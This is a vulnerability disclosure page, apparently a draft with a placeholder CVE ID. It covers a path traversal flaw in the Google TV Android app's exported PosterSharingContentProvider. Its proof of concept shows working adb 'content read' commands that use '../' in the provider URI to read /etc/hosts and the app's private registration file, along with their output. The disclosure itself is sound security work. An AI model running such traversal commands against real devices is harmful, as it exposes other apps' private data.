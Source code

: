 ```yaml
---
layout: page
title: CVE-2024-yaytempyay Details
permalink: /cves/cve-2025-yaytempyay
---
```


|    **Product**    | Google TV version 4.39.2590.678247678.4-release |
|    **Severity**   |                   ???                   |
| **CVE Reference** |              CVE-2025-yaytempyay              |
|      **Type**     |             Path Traversal            |

## Description

The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a Path Traversal vulnerability. Specifically, the vulnerable Content Provider is `com.google.android.apps.googletv.app.image.PosterSharingContentProvider`.

This issue was exploitable under the following conditions:

* The underlying Google Account was a part of a Google Family
* The Google Family had previously purchased products in the Family Library
* The application has previously been opened and viewed the Highlights section

## Impact

This can allow the calling application to view files on the file system within the context of the Google TV Android application.

## Proof of Concept (PoC)

The following code snippet shows that the `adb shell` user on a Samsung Galaxy S24 could abuse the vulnerable Content Provider to read the `/etc/hosts` file:

```
e1s:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs) context=u:r:shell:s0

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../../../../../etc/hosts 
127.0.0.1       localhost
::1             ip6-localhost
```

Additionally, this issue could have been used to read files that were in Google TV's private files directory:

```
e1s:/ $ cat /data/data/com.google.android.videos/shared_prefs/registration_data.xml
cat: /data/data/com.google.android.videos/shared_prefs/registration_data.xml: Permission denied

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../shared_prefs/registration_data.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="last_successful_registration_environment_url">notifications-pa.googleapis.com</string>
    <boolean name="is_registered_to_unified_fcm_registration" value="false" />
    <int name="last_successful_registration_request_hash_code" value="364779808" />
    <long name="last_successful_registration_time_ms" value="1728826771075" />
    <string name="fetch_only_id">c21e1400-64e6-4663-a32c-5682569d2bc1</string>
    <string name="internal_target_id">Ch1nY21fZm86djE6Njc3MDQ3MDA2Mzg2MzMxNTk2Nw</string>
    <int name="last_successful_registration_account_type" value="1" />
</map>
```

## Technical Details

The vulnerable Content Provider is meant to host files that are hosted in `/data/user/0/com.google.android.videos/files/offline_images/`. However, this directory is not created by default.

One method to create this directory is to go to the Highlights section of the application, assuming that the underlying Google account met the following conditions:

* The Google Account was a part of a Google Family
* The Google Family had previously purchased TV shows or movies

Once those conditions are met, any application could have exploited this issue by added `../` characters to the Content Provider URI.